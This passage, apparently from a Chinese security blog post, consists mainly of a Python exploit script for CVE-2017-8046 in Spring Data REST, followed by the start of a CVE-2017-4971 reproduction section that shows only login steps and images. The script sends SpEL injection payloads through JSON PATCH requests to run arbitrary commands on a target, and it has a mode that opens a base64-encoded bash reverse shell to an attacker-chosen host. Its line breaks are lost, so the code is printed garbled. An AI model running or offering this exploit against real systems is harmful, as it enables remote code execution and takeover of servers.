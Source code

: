 ![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9O3K1gCp1h3YHth6nSsbl0AydGgzgum9fovNeS73jJxCzo5ER3r2XMdbBBvImNWZRZGAp8KBshVw/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9O3K1gCp1h3YHth6nSsbl0S2ZBGIN6ydBKfGRLFW6cIZAr5zzyic1NFMMQhpM9fBaMKABWc5XMbEw/640?wx_fmt=png)

```
import requestsimport jsonimport pyfigletimport base64import timeimport reascii_banner = pyfiglet.figlet_format("CVE-2017-8046")print(ascii_banner)print("blog:https://www.cnblogs.com/yicunyiye/")print("-" * 50)url = input("attack url:")resp_url = requests.get(url)target_text = resp_url.textprint("-" * 50)re_target = re.compile('"href" : "(.*?)"',re.I|re.S)target = re_target.findall(target_text)[0]once = requests.get(target)once = once.textprint(once)print("-" * 50)print("输入json中任意两个键来创建值，比如firstname，lastname")first = input("first:")second = input("second:")# first = "lastname"# second = "firstname"create = {    first:"yicunyiye",    second:"hacker"}if('hacker' not in once):    poc1 = requests.post(target,json=create)once = requests.get(target)once = once.texttime.sleep(2)print("-" * 50)#匹配创建的用户信息的url地址re_target_once = re.compile('"hacker"(.*?)"profile"',re.I|re.S)result_once = re_target_once.findall(once)result_once = result_once[0]# input("111:")re_target_twice = re.compile('"href" : "(.*?)"',re.I|re.S)result_twice = re_target_twice.findall(result_once)json_url = result_twice[0]# json_url = input("输入json中的href地址：")# json_url = "http://49.235.54.135:47507/persons/1"replace_url = requests.patch(json_url,                     data=json.dumps([{"op": "replace", "path": "/"+first+"", "value": "fenghuaxueyue"}]),                     headers={'Content-Type': 'application/json-patch+json'})replace_url = replace_url.textif('fenghuaxueyue' in replace_url):    print("[+]%s is vulnerable" % url)print("-" * 50)print("input exit will break,input shell you can get a shell")# cmd = "touch /tmp/test"# print("please input your command："+cmd)while True:    cmd = input("please input your command：")    cmd = bytes(cmd, encoding='utf-8')    flag = b'exit'    if cmd == flag:        print("bye~~")        break    bytecode = ','.join(str(i) for i in list(cmd))    exp_url = requests.patch(json_url,                         data=json.dumps([{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{"+bytecode+"}))/lastname", "value": "yicunyiye" }]),                         headers={'Content-Type': 'application/json-patch+json'})    if cmd == b'shell':        reverse_ip = input('reverse ip：')        reverse_port = input('reverse port：')        bash_cmd = "bash -i >& /dev/tcp/" + reverse_ip + "/"+reverse_port+" 0>&1"        base64_cmd = base64.b64encode(bytes(bash_cmd, encoding='utf-8'))        string_bash = str(base64_cmd,'utf-8')        reverse_cmd = "bash -c {echo," + string_bash + "}|{base64,-d}|{bash,-i}"        poc = bytes(reverse_cmd, encoding='utf-8')        poc_code = ','.join(str(i) for i in list(poc))        exp = requests.patch(json_url,                                 data=json.dumps([{"op": "replace",                                                   "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{" + poc_code + "}))/lastname",                                                   "value": "vulhub"}]),                                 headers={'Content-Type': 'application/json-patch+json'})        print("[+]getshell success")
```

### 0x03 cve-2017-4971

#### 3.1 漏洞复现

使用左边账号登录

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9O3K1gCp1h3YHth6nSsbl0LSjecl7xHKc1cREy8ny3darZATVqJqGoNpRdbbVVI4C4Hy6JOoJEdw/640?wx_fmt=png)

进去了访问 / hotels/1

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9O3K1gCp1h3YHth6nSsbl0vf8WXicPVZxB9kjTDaukvHusCKwswqLRpSibgBL6Wgq8s4ppXdURKKng/640?wx_fmt=png)

随便输入信息然后点击

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9O3K1gCp1h3YHth6nSsbl0vBjTZ4icKoPfUhic0MsSQCcMMuicJibSau0FvwBfj4pPfXvyCwZicxTRXjw/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9O3K1gCp1h3YHth6nSsbl0xV9Yh9EpzVTO3xaAWkMZrqiagtWhut42zozXjRc9u1RR4rk4hTutibLA/640?wx_fmt=png)
